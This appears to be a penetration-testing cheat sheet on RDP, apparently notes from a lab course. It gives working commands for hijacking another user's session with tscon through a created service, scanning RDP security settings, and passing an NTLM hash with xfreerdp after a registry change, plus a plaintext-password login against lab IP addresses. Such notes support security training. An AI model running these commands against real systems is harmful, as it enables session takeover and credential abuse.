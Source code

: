 ### RDP Session Hijacking
- we need to have `SYSTEM` privileges and use the Microsoft `tscon.exe` binary
- we can use several methods to obtain SYSTEM privileges, such as `PsExec` or `Mimikatz`.
- `Note:` This method no longer works on Server 2019
```shell
# check user sessions
query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM


# hijack
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}

# create a service to hijack
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

# start the sessionhijack service
net start sessionhijack
```


### RDP Security Check
```shell
# install cpan for installing Perl modules
$ sudo cpan
cpan[1]> install Encoding::BER

Fetching with LWP:
http://www.cpan.org/authors/01mailrc.txt.gz
```
A Perl script named `rdp-sec-check.pl` has also been developed by Cisco CX Security Labs that can unauthentically identify the security settings of RDP servers based on the handshakes.

```shell
$ git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check
$ ./rdp-sec-check.pl 10.129.201.248
```

### Pass the Hash with RDP
Adding the DisableRestrictedAdmin Registry Key
```shell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
```shell
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```

### Service Interaction
- xfreerdp
```
xfreerdp /u:cry0l1t3 /p:"P455w0rd!" /v:10.129.201.248
```
 - rdesktop
 - Remmina
